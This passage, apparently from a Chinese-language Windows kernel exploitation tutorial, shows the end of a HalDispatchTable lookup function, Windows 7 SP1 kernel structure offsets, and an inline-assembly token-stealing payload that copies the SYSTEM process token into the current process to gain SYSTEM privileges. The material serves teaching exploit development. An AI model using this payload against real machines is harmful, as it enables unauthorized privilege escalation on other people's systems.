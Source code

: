 ```
 
    if (hKernelInUserMode) {
        FreeLibrary(hKernelInUserMode);
    }
 
    hNtDll = NULL;
    hKernelInUserMode = NULL;
    pSystemModuleInformation = NULL;
 
    return HalDispatchTable;
}

```

#### 2. 编写 Ring0 payload

payload 功能：遍历进程，得到系统进程的 token，把当前进程的 token 替换，达到提权目的。

 

相关内核结构体：

 

在内核模式下，fs:[0] 指向 KPCR 结构体

```
_KPCR
+0x120 PrcbData         : _KPRCB
_KPRCB
+0x004 CurrentThread    : Ptr32 _KTHREAD，_KTHREAD指针，这个指针指向_KTHREAD结构体
_KTHREAD
+0x040 ApcState         : _KAPC_STATE
_KAPC_STATE
+0x010 Process          : Ptr32 _KPROCESS,_KPROCESS指针，这个指针指向EPROCESS结构体
_EPROCESS
   +0x0b4 UniqueProcessId  : Ptr32 Void,当前进程ID，系统进程ID=0x04
   +0x0b8 ActiveProcessLinks : _LIST_ENTRY，双向链表，指向下一个进程的ActiveProcessLinks结构体处，通过这个链表我们可以遍历所有进程，以寻找我们需要的进程
   +0x0f8 Token            : _EX_FAST_REF，描述了该进程的安全上下文，同时包含了进程账户相关的身份以及权限

```

payload：

```
__asm {
       pushad                               ; Save registers state
 
       ; Start of Token Stealing Stub
       xor eax, eax                         ; Set ZERO
       mov eax, fs:[eax + KTHREAD_OFFSET]   ; Get nt!_KPCR.PcrbData.CurrentThread
                                            ; _KTHREAD is located at FS:[0x124]
 
       mov eax, [eax + EPROCESS_OFFSET]     ; Get nt!_KTHREAD.ApcState.Process
 
       mov ecx, eax                         ; Copy current process _EPROCESS structure
 
       mov edx, SYSTEM_PID                  ; WIN 7 SP1 SYSTEM process PID = 0x4
 
       SearchSystemPID:
           mov eax, [eax + FLINK_OFFSET]    ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
           sub eax, FLINK_OFFSET
           cmp [eax + PID_OFFSET], edx      ; Get nt!_EPROCESS.UniqueProcessId
           jne SearchSystemPID
 
       mov edx, [eax + TOKEN_OFFSET]        ; Get SYSTEM process nt!_EPROCESS.Token
       mov [ecx + TOKEN_OFFSET], edx        ; Replace target process nt!_EPROCESS.Token
```